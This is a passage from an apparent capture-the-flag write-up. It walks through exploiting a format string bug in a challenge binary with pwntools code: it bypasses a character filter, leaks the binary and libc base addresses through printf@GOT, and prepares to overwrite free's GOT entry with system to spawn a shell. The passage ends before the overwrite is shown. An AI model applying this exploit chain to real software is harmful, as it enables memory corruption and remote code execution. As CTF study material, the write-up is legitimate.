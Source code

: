 ```python
    return io.recvuntil(b" -")[:-2]

# setup character blacklist bypass
io.recvuntil(b"[0] Register")
io.sendline(b"2")
io.recvuntil(b"title:")
io.sendline(b"a")
io.recvuntil(b"from:")
io.sendline(b"a")
io.recvuntil(b"on:")
io.send(b"a"*0x20)

format(io, b"%p", b"x", b"x")
```

## Getting a Shell
Now that we had infinite format strings with a large length, we began looking for a way to spawn a shell. First we began looking into ways to get leaks. There was leaks to the base address of the binary and `user` holding the `username` of the user we registered:

```python
l = format(io, b".%10$p.%11$p.%12$p", b"a", b"a").split(b".")

LEAK = int(str(l[2], "utf-8"), 16)
BASE = LEAK - 0x19e5

print("BASE:", hex(BASE))
```

Now we needed to obtain a libc leak. Because we had the ability to place more than just the format string on the stack, we opted to use the `author` section of the "corrupt" song to hold addresses, derefencing with the `%s` modifier to get leaks. The `author` section of the "corrupt" song was at offset `501`, so by placing the pointer to `printf@GOT` there and using `%501$s` we receive a leak of the libc address for `printf`, which can be used to calculate the base address of `libc` and the address for `system`:

```python
print("BASE:", hex(BASE))

addresses = b"aaaa"
addresses += p64(BASE + bin.got["printf"])

l = format(io, b".%501$s.", addresses, b"a").split(b".")
libc_base = u64(l[1] + b"\x00\x00") - libc.sym["printf"]
system = libc_base + libc.sym["system"]

print("LIBC BASE:", hex(libc_base))
print("SYSTEM", hex(system))
```

Now that we had leaks, we could find a function to overwrite in the `GOT` to `system` that would operate on a pointer to user controlled data. This lead us to the `free` function which is exclusively called by `add_favorite` when a value contains an illegal character or the favorites are full. We specifically chose this gadget because the more obvious gadgets we tried required the `\n` character in the format string payload to overwrite the value in the `GOT`, causing the `read` function to terminate early:
